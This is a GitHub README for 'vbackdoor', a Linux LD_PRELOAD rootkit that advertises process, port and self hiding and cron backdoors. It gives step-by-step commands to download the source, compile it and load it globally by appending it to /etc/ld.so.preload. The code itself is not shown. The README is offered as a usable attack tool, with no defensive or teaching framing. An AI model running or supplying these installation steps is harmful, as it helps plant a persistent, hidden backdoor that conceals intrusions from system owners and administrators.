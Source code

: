 # vbackdoor
[中文](https://github.com/veo/vbackdoor/blob/main/README_cn.md)

Hide a process,port,self under Linux using the LD_PRELOAD rootkit.

### compile the library

```
git clone https://github.com/veo/vbackdoor.git
cd vbackdoor
vi vbackdoor.c
make
sudo mv vbackdoor.so /usr/local/lib/
```

or

```
wget https://raw.githubusercontent.com/veo/vbackdoor/main/vbackdoor.c
vi vbackdoor.c
gcc -Wall -fPIC -shared -o vbackdoor.so vbackdoor.c -ldl
sudo mv vbackdoor.so /usr/local/lib/
```

### Load it with the global dynamic linker

```
echo /usr/local/lib/vbackdoor.so >> /etc/ld.so.preload
```




  * Process hiding
  * LD_PRELOAD hiding
  * Network hiding
  * cron Backdoors
